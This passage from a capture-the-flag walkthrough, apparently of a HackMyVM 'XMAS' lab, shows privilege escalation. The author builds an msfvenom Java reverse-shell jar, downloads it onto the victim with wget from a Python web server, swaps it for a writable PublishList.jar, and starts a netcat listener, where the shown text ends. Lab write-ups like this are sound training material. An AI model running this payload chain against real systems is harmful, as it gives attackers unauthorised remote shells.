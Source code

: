```bash
alabaster@xmas:~/PublishList$ 

```
There are multiple files including the source code of the jar file. Since we own the files we can do anything with those files. To escalate our privileges we can generate a java (jar) reverse shell with msfvenom and replace it with the current file.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ msfvenom -p java/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4321 -f jar -o shell.jar
Payload size: 7506 bytes
Final size of jar file: 7506 bytes
Saved as: shell.jar
```
After creating the jar file, we should host the file with a Python webserver and download it at the victim.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ sudo python3 -m http.server 80
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
To get the reverse shell we should download our reverse shell(jar file )to the victim.
```bash
alabaster@xmas:~/PublishList$ wget http://10.0.2.15/shell.jar
wget http://10.0.2.15/shell.jar
--2023-11-21 09:23:32--  http://10.0.2.15/shell.jar
Connecting to 10.0.2.15:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7506 (7.3K) [application/java-archive]
Saving to: ‘shell.jar’

shell.jar           100%[===================>]   7.33K  --.-KB/s    in 0s      

2023-11-21 09:23:32 (176 MB/s) - ‘shell.jar’ saved [7506/7506]
```
We should rename the files so we can revert everything if it does not work as we planned.
```bash
alabaster@xmas:~/PublishList$ mv PublishList.jar PublishList.bak
mv PublishList.jar PublishList.bak
alabaster@xmas:~/PublishList$ mv shell.jar PublishList.jar
mv shell.jar PublishList.jar

```
Double check if the file names are changed and we can continue with our attack.
```bash
alabaster@xmas:~/PublishList$ ls -la
ls -la
total 36
drwxrwxr-x 2 alabaster alabaster 4096 Nov 21 09:23 .
drwxr-x--- 7 alabaster alabaster 4096 Nov 20 18:43 ..
-rw-rw-r-- 1 alabaster alabaster   38 Nov 20 18:45 manifest.mf
-rw-rw-r-- 1 alabaster alabaster   24 Nov 20 18:44 MANIFEST.MF
-rw-rw-r-- 1 alabaster alabaster 1477 Nov 20 18:45 PublishList.bak
-rw-rw-r-- 1 alabaster alabaster 1760 Nov 20 18:45 PublishList.class
-rw-rw-r-- 1 alabaster alabaster 7506 Nov 21 09:22 PublishList.jar
-rw-rw-r-- 1 alabaster alabaster 1182 Nov 20 18:44 PublishList.java

```
Start a new netcat listener on port 4321.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ rlwrap nc -lvnp 4321
listening on [any] 4321 ...

```